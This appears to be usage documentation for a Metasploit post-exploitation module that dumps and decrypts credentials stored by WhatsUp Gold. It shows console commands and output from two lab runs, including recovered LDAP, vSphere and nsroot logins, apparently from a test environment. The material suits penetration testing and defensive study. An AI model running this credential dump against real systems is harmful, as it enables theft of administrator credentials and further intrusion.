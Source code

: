 ```
[+]     HEX: E9143AD84940A233
[+] WhatsUp Gold Composed AES256
[+]     KEY: 5B83224E3BFB363C841C6E27B6DF6B824ECD67BA06B4ED1918C0F738A60A8A75
[+]      IV: 5205DF3A92F346215308DD91DEAF69AE
[*] Init WhatsUp Gold SQL ...
[+] SolarWinds WhatsUp Gold SQL Database Connection Configuration:
[+]     Instance Name: WINNEBAGO\WHATSUP
[+]     Database Name: WhatsUp
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Performing export of WhatsUp Gold SQL database to CSV file
[*] Export WhatsUp Gold DB ...
[+] 9 WUG rows exported, 4 unique nCredentialTypeIDs
[+] Encrypted WhatsUp Gold Database Dump: /root/.msf4/loot/20221218104026_default_192.168.101.125_whatsup_gold_enc_241327.txt
[*] Performing decryption of WhatsUp Gold SQL database
[+] 9 WUG rows loaded, 4 unique nCredentialTypeIDs
[*] Process WhatsUp Gold DB ...
[+] 9 WUG rows processed
[*] 9 rows recovered: 6 plaintext, 3 decrypted (0 blank)
[*] 9 rows written (0 blank rows withheld)
[+] 4 unique WUG nCredentialTypeID records recovered
[+] Recovered Credential: ldap
[+]     L: CESIUM137\ldap
[+]     P: WuddidUSay2Me?!
[+] Recovered Credential: vSphere SSO Admin
[+]     L: Administrator@vSphere.local
[+]     P: IAmOut2Lunch!
[+] Recovered Credential: nsroot
[+]     L: nsroot
[+]     P: quit2day!
[+] Decrypted WhatsUp Gold Database Dump: /root/.msf4/loot/20221218104026_default_192.168.101.125_whatsup_gold_dec_104164.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) > 
```

Host running Windows Server 2003 R2 and WhatsUp Premium 11.0.1.11231 with MSDE;
the operator must supply the export data via the `CSV_FILE` advanced option:

```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/whatsupgold_credential_dump
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) > set session 1
session => 1
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) > dump

[*] Hostname WINCEMEAT IPv4 192.168.101.144
[*] WhatsUp Gold Build 11.00.0004
[*] Init WhatsUp Gold crypto ...
[!] Could not extract dynamic encryption salt; type 3 ciphertext will not be decrypted
[*] Init WhatsUp Gold SQL ...
[+] WhatsUp Gold SQL Database Connection Configuration:
[+]     Instance Name: WINTESSENCE\WHATSUP
[+]     Database Name: WhatsUp
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[-] Post aborted due to failure: bad-config: Unable to identify sqlcmd SQL client on target host
[*] Post module execution completed
msf6 post(windows/gather/credentials/whatsupgold_credential_dump) > 
```
